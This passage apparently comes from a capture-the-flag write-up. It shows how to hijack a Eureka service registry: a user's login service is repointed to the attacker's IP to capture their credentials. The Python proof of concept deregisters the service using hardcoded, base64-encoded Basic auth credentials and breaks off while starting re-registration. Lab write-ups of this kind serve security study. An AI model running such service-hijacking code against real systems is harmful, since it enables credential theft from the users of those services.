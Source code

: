 ![eureka5](/assets/img/eureka5.png)

You can change every service from here. So we change the one that miranda tries to login and point to our ip to get the creds.

![eureka6](/assets/img/eureka6.png)

poc:
```python
import requests


def dele():
    burp0_url = "http://localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE/localhost:USER-MANAGEMENT-SERVICE:8081"
    burp0_headers = {
        "Authorization": "Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==",
        "Content-Type": "application/json",
    }
    requests.delete(burp0_url, headers=burp0_headers)


def creat():
    burp0_url = "http://localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE"
```
